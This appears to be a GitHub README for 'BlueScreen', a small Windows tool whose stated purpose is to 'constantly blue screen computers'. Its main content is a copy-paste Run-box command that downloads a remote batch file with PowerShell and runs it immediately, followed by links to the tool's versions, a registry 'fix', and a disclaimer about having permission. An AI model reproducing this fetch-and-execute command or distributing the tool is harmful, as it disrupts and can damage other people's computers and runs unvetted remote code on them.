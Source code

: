 # Simply press win + r and type the command below to get started!
cmd /c @echo off & cd %userprofile% & powershell /c wget https://raw.githubusercontent.com/harryaldwithjarryald/BlueScreen/main/online_temp.bat -outfile bluescren_temp.bat && bluescren_temp.bat
[Alpha Version (sometimes untested and unstable)](https://github.com/harryaldwithjarryald/BlueScreen/archive/refs/heads/main.zip)
<br>
[Offline Version (11.00 legacy)](https://github.com/harryaldwithjarryald/BlueScreen/releases/tag/offline-11.00)
12.00 offline coming soon...
<br>
# [Online Version (Latest)](https://github.com/harryaldwithjarryald/BlueScreen/releases/tag/online)
# A simple OPEN SOURCE AND LESS THAN 1MB tool to contantly blue screen computers and includes a fix ([fix.REG](https://github.com/harryaldwithjarryald/BlueScreen/releases/download/online/fix.REG))
Open [bluescreen.bat](https://github.com/harryaldwithjarryald/BlueScreen/releases/download/online/online_bluescreen.bat) to get started.
**I AM NOT RESPONABLE IF YOU GET IN TROUBLE FOR USING THIS.  MAKE SURE TO HAVE PERMISSION BEFORE USING THIS!**
# It is recommended to make a windows installer usb drive in the event of anything going wrong.  
The download page for that is [here](https://www.microsoft.com/en-us/software-download/windows10)
